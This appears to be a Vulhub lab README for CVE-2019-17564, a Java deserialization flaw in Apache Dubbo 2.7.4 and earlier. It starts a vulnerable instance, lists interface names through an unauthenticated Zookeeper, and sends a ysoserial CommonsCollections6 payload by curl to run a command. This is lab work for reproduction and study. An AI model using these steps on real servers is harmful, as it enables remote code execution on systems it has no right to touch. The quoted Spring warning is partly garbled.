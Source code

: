 # Aapche Dubbo Unsafe Java Deserialization (CVE-2019-17564)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Dubbo is a high-performance, java based open source RPC framework.

Apache Dubbo supports different protocols, and its HTTP protocol handler is a wrapper of Spring Framework's `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`.

A security warning of Spring Framework shows that an unsafe Java deserialization is exist in the `HttpInvokerServiceExporter`, which could lead to a RCE vulnerability:

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code As a consequence, do not expose HTTP invoker endpoints to untrusted As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

This vulnerability affects Apache Dubbo 2.7.4 and earlier, after 2.7.5 Dubbo replace `HttpInvokerServiceExporter` with `com.googlecode.jsonrpc4j.JsonRpcServer`.

Reference links.

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## Vulnerable Application

Start an Apache Dubbo 2.7.3 Provider by executing the following command.

```
docker compose up -d
```

After the service is started, browser ``http://your-ip:8080`` and the server will return an empty 500 error page by default.

## Exploit

It is important to know the RPC interface name before leveraging this vulnerability.

Vulhub is exposing the port 8080 and port 2181, where 2181 is the port of Zookeeper. Download [Zookeeper](https://zookeeper.apache.org/) and use the script **zkCli** to connect to the unauthenticated Zookeeper server:

```
./zkCli -server target-ip:2181
```

After connecting, it is come with an interactive console, where you can `ls` all nodes, including Dubbo-related configuration.

![](1.png)

Get the RPC interface named `org.vulhub.api.CalcService`. Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a `CommonsCollections6` payload, then send it to `http://your-ip:8080/org.vulhub.api.CalcService` as POST body.

```
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```

![](2.png)

Entering the container, you can see that `touch /tmp/success` has been executed successfully.

![](3.png)
